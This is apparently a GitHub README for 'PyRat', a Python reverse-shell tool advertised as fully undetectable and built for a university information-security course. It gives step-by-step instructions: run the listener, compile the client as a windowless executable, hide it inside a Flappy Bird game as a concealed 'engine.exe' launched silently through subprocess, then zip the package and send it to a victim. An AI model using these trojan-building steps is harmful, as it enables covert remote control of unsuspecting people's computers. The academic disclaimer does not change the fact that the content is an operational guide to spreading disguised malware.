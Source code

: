 <h1 align="center">PyRat: ReverseShell</h1>
<p align="center">A Fully Undetectable Python 3 Reverse Shell Script</p>

<hr>
<h2 align="center">Disclaimer</h2>
<p align="center">
Developed by <b>Gerard Ian M. Balaoro</b><br>
In Partial Fulfillment on the Requirements for the Subject<br>
LIS 198: Information Security<br>
1st Semester, A.Y. 2018-2019<br>
University of the Philippines Diliman
<br><br>
<i>The author intended this to be used solely for academic purposes</i>
</p>
<hr>



## Usage

- Install required Python packages.

   ```bat
   pip install -r packages.txt
   ```

- Run the server script.

   ```bat
   python server.py --port 58777
   ```

- Configure server settings inside **config.ini**.

  ```json
  {
    "host":"127.0.0.1",
    "port":58777
  }

  ```
  
- Run client script in another computer.


## Building Binaries Using PyInstaller (Windows)

- Server script

  ```bat
  pyinstaller server.py -F -y -i assets/icons/shell.ico --distpath "dist/PyRat" --name "PyRatServer"
  ```
  
- Client script, use the `windowed` option to prevent the script from launching a command window

  ```bat
  pyinstaller client.py -F -y -i assets/icons/gear.ico --distpath "dist/PyRat" --name "PyRatClient"
  ```

## Building Trojan Executables (Windows)


### Injecting the client script inside the parent entry script.

It's faily easy to integrate this script to any Python application. In this example, we will use this [Flappy Bird Game](https://github.com/sourabhv/FlapPyBird) recreated by [Sourabh Verma](https://github.com/sourabhv/) using the PyGame library.

All we need to do is execute the client script silently whenever the game is initialized. We also need to think of an unsuspicous name
to use when compiling the client script, in this case, we're using **'engine.exe'**. This can be accomplished using Python's `subprocess` library:

```python
import subprocess
payload = subprocess.Popen('engine', shell = True, stdout= None, stderr = None, stdin = None)
```


### Building the Game Package


Run `pyinstaller` and copy the assets folder to the destination:

```bat
pyinstaller flappy.py -F -y -i assets/icons/flappy.ico --distpath "dist/FlappyBird" --name "flappybird" --windowed
xcopy "assets" "dist/FlappyBird/assets" /E /S /Y**
```

Once done, we can now see our Trojan application inside the `build/FlappyBird` directory. All there's left to do is to change the configuration settings, compress this to a **zip** file and send it to a victim.

```
.
├── ...
├── config.ini  # Server settings
├── engine.exe  # Concealed payload
├── flappybird.exe 
└── ...
```

## Credits

- This script is based on [this article](https://null-byte.wonderhowto.com/how-to/reverse-shell-using-python-0163875/) from WonderHowTo.com
